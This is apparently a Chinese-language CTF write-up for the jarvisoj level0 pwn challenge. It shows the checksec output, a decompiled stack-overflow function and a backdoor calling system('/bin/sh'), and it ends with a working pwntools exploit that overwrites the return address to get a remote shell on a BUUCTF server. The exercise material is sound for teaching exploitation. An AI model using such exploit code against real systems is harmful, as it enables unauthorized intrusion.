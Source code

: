 # jarvisoj level0

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec level0
[*] '/root/level0'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数输出了一句`Hello, World`，接着调用`vulnerable_function`函数，该函数如下

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```

查找函数表发现后门函数`callsystem`

```c
int callsystem()
{
  return system("/bin/sh");
}
```



## 思路分析

1. 目前信息
   - 栈上变量`buf`处可写入`0x200`字节数据
   - `buf`距离返回地址的偏移为`0x80+8`
3. 思路
   - 可写入字节数已经大于偏移量，可直接进行栈溢出将返回地址修改为后门函数的地址

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level0/level0'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27710)
padding = 0x80+8
backdoor = 0x40059A
io.recv()
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```